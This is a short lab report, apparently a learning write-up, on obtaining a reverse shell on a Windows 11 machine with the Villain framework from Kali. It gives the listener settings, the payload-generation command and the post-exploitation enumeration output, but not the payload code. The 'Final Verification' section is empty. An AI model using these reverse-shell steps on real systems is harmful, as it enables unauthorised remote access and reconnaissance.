

# 🦹‍♂️ Villain Framework Reverse Shell Report

> **Lab-only disclaimer:** This exercise was performed strictly on my own isolated VMs for learning and defensive purposes. No third-party or production systems were targeted.

---

## ⚙️ Setup Info
| Parameter | Value |
|-----------|-------|
| Payload | `windows/reverse_tcp/powershell` |
| LHOST | `192.168.56.101` |
| LPORT | `8080` |
| Target OS | Windows 11 Home Single Language (Build 22631) |
| Attacker OS | Kali Linux |

---

## 🔁 Payload Delivery Method
- **Method:** Payload generated in Villain using `generate os=windows lhost=eth1`.
- **Execution:** The generated PowerShell command was executed on the target VM in a PowerShell terminal.
- **Network:** Host-only VirtualBox network between Kali attacker VM and Windows target VM.

---

## 🖥️ Captured Info
| Field | Value |
|-------|-------|
| Hostname | LAPTOP-JNNA97BM |
| IP Address | 192.168.56.1 |
| User | laptop-jnna97bm\lenovo |

---
## 🛑 Final Verification


## 🔎 Enumeration Performed
```powershell
whoami
laptop-jnna97bm\lenovo

ipconfig
Ethernet adapter Ethernet 3:
   IPv4 Address. . . . . . . . . . . : 192.168.56.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0

Wireless LAN adapter Wi-Fi:
   IPv4 Address. . . . . . . . . . . : 10.30.56.61
   Subnet Mask . . . . . . . . . . . : 255.255.255.0

systeminfo
Host Name:                 LAPTOP-JNNA97BM
OS Name:                   Microsoft Windows 11 Home Single Language
OS Version:                10.0.22631 N/A Build 22631
System Manufacturer:       LENOVO
System Model:              82K2
System Type:               x64-based PC
Processor(s):              AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~1908 Mhz
Total Physical Memory:     14,188 MB


